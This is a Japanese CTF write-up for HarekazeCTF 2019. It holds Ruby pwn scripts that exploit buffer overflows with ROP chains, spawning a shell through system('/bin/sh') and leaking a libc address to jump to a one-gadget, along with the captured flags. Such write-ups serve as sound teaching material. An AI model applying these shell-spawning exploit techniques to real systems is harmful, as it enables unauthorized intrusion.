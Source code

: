 ```yaml
---
title: "Harekazectf2019"
date: 2019-05-19T16:54:53+09:00
draft: false
categories: 
- writeup

---
```


## Baby ROP 1

- バイナリ中で、`system` 関数使ってechoしており、Canary等もないBOFが起こるので、`pop rdi; ret` 使って`system(/bin/sh)` を呼ぶだけ
```ruby
#!/usr/bin/env ruby

require 'pwn'

context.log_level = :debug
z = Sock.new "problem.harekaze.com", 20001

pop_rdi_ret = p64(0x00400683)
system = p64(0x4005e3)

STDIN.gets
z.recvuntil "? "
payload = "A" * 24
payload << pop_rdi_ret
payload << p64(0x601048)
payload << system

z.sendline payload

z.interact
```
- **HarekazeCTF{r3turn_0r13nt3d_pr0gr4mm1ng_i5_3ss3nt141_70_pwn}**

## Baby ROP 2

- `system` 関数などは、存在しないが、libc が配布されているので、ROPでlibcアドレスリークして、One-Gagdet に飛ばすだけ
```ruby
#!/usr/bin/env ruby

require 'pwn'

context.log_level = :debug
z = Sock.new "problem.harekaze.com", 20005
#z = Sock.new "localhost", 9999
elf = ELF.new "./babyrop2"
libc = ELF.new "./libc.so.6"
#libc = ELF.new "./mylibc.so.6"

pop_rdi_ret = p64(0x00400733)
z.recvuntil "? "

payload = "A" * 40
payload << pop_rdi_ret
payload << p64(elf.got["__libc_start_main"])
payload << p64(0x4004f0)
payload << p64(elf.symbols["main"])
STDIN.gets
z.sendline payload

recvlen = "Welcome to the Pwn World again, AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!\n".length
data = z.recvuntil "? "
p data
libc_base = u64(data[recvlen, 6].ljust(8, "\x00")) - libc.symbols["__libc_start_main"]
libc_magic = libc_base + 0xf02a4
puts "libc base 0x%x" % libc_base
puts "libc magic 0x%x" % libc_magic

payload = "B" * 40
payload << p64(libc_magic)
z.sendline payload

z.interact
```
- **HarekazeCTF{u53_b55_53gm3nt_t0_pu7_50m37h1ng}**

## Login

- 解けなかった、脆弱性わからず

## Harekaze Note

- Note の削除時に何も考慮してないため、Heapアドレスのリークやdouble freeができるが、そこから攻撃に繋げられず
